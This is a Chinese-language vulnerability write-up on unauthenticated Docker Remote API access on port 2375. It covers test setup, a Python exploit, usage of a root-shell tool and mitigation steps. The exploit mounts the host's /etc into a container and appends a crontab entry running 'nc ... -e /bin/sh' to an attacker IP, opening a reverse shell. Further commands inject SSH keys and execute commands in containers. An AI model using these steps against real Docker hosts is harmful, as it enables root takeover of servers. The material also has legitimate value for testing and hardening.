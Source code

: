 # Docker 未授权访问

### 一、漏洞简介

**1.基础介绍**

http://www.loner.fm/drops/##!/drops/1203.%E6%96%B0%E5%A7%BF%E5%8A%BF%E4%B9%8BDocker%20Remote%20API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90%E5%92%8C%E5%88%A9%E7%94%A8

docker swarm 是一个将docker集群变成单一虚拟的docker host工具，使用标准的Docker API，能够方便docker集群的管理和扩展，由docker官方提供，具体的大家可以看官网介绍。

漏洞发现的起因是，有一位同学在使用docker swarm的时候，发现了管理的docker 节点上会开放一个TCP端口2375，绑定在0.0.0.0上，http访问会返回 404 page not found ，然后他研究了下，发现这是 Docker Remote API，可以执行docker命令，比如访问 `http://host:2375/containers/json` 会返回服务器当前运行的 container列表，和在docker CLI上执行 docker ps 的效果一样，其他操作比如创建/删除container，拉取image等操作也都可以通过API调用完成，然后他就开始吐槽了，这尼玛太不安全了。

然后我想了想 swarm是用来管理docker集群的，应该放在内网才对。问了之后发现，他是在公网上的几台机器上安装swarm的，并且2375端口的访问策略是开放的，所以可以直接访问。

**2.测试环境配置**

先关闭docker，然后开启：


```bash
sudo service docker stop
# 绑定Docker Remote Api在指定端口（这里是2375），可以自行测试。
sudo docker daemon  -H tcp://0.0.0.0:2375 -H unix:///var/run/docker.sock
```

参考API规范进行渗透：https://docs.docker.com/engine/reference/api/docker-remote-api-v1.23/

操作Docker API可以使用python dockert api 完成。


```
pip install docker-py
```

API使用参考：https://docker-py.readthedocs.io/en/stable/api/##client-api

### 二、影响范围

### 三、复现过程

利用方法是，我们随意启动一个容器，并将宿主机的/etc目录挂载到容器中，便可以任意读写文件了。我们可以将命令写入crontab配置文件，进行反弹shell。


```python
import docker

client = docker.DockerClient(base_url='http://your-ip:2375/')
data = client.containers.run('alpine:latest', r'''sh -c "echo '* * * * * /usr/bin/nc your-ip 21 -e /bin/sh' >> /tmp/etc/crontabs/root" ''', remove=True, volumes={'/etc': {'bind': '/tmp/etc', 'mode': 'rw'}})
```

写入crontab文件，成功反弹shell：

![](images/15889980992699.png)


python脚本

https://github.com/ianxtianxt/docker_api_vul

* 安装类库
* pip install -r requirements.txt
* 查看运行的容器
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375
* 查看所有的容器
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -a
* 查看所有镜像
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -l
* 查看端口映射
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -L
* 写计划任务（centos,redhat等,加-u参数用于ubuntu等）
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -H 反弹ip -P 反弹端口
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -u -i 镜像名 -H 反弹ip -P 反弹端口
* 写sshkey(自行修改脚本的中公钥)
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -C -i 镜像名 -k
* 在容器中执行命令
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -e "id" -I 容器id
* 删除容器
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -c -I 容器id
* 修改client api版本
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -v 1.22
* 查看服务端api版本
* python dockerRemoteApiGetRootShell.py -h 127.0.0.1 -p 2375 -V
* 3.3 其他的一些exp

https://github.com/netxfly/docker-remote-api-exp

https://github.com/zer0yu/SomePoC/blob/master/Docker/Docker_Remote_API%E6%9C%AA%E6%8E%88%E6%9D%83%E8%AE%BF%E9%97%AE%E6%BC%8F%E6%B4%9E.py

https://github.com/JnuSimba/MiscSecNotes/tree/master/Docker%E5%AE%89%E5%85%A8

**4.防护策略**

* 1.修改 Docker Remote API 服务默认参数。注意：该操作需要重启 Docker 服务才能生效。

* 2.修改 Docker 的启动参数：
* 定位到 DOCKER_OPTS 中的 tcp://0.0.0.0:2375，将0.0.0.0修改为127.0.0.1
* 或将默认端口 2375 改为自定义端口
* 为 Remote API 设置认证措施。参照 官方文档 配置 Rem

* 3.注意：该操作需要重启 Docker 服务才能生效。
* 修改 Docker 服务运行账号。请以较低权限账号运行 Docker 服务；另外，可以限制攻击者执行高危命令。

* 4.注意：该操作需要重启 Docker 服务才能生效。
* 设置防火墙策略。如果正常业务中 API 服务需要被其他服务器来访问，可以配置安全组策略或 iptables 策略，仅允许指定的 IP 来访问 Docker 接口。